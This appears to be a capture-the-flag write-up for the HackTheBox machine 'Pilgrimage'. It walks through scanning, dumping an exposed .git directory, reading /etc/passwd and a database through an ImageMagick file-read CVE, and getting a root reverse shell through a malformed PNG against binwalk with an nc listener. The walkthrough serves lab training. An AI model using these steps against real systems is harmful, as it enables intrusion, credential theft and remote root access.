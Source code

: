 # Machine: Pilgrimage [Hacked]
This is the eleventh machine I have completed on the hackthebox platform.
nmap scan
IP_MACHINE: ip of pilgrimage
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE
```
add the domain pilgrimage.htb to the /etc/hosts file and perform the nmap scan again to discover the .git path present on the server
```
git-dump http://pilgrimage.htb/.git . 
git checkout .
strings *.php 
magick # use CVE-2022-44268-ImageMagick-Arbitrary-File-Read for exploiting image-magick
```
read /etc/passwd and db/pilgrimage (the path is indicated in the php files obtained from the .git) with the image-magick exploit, to obtain username and password and start an ssh session with the target machine
## in ssh session 
In the ssh session we already have the *first flag* (user.txt), when doing a privilege elevation test, we realize that we will have to try an alternative method to the usual one.
```
 ps aux | grep 'sh$' # for discover active scripts on server
```
## exploiting binwalk 2.3.2 with png malformed
once the malicious png is created and renamed as "malware.png"
```
# from my pc.
python -m http.server
# from my pc but in another terminal.
nc -nlvp 6969
```
in the ssh session move to the directory where the pngs are received in the web functionality.
```
# from ssh session
wget http://[MY-IP_tun0]:8000/malware.png
```
and at that moment from the nc session, the connection will be received as Root (reverse-shell), and here all that remains is to obtain the system flag
```
# from nc session (root)
cat /root/root.txt
```

### end
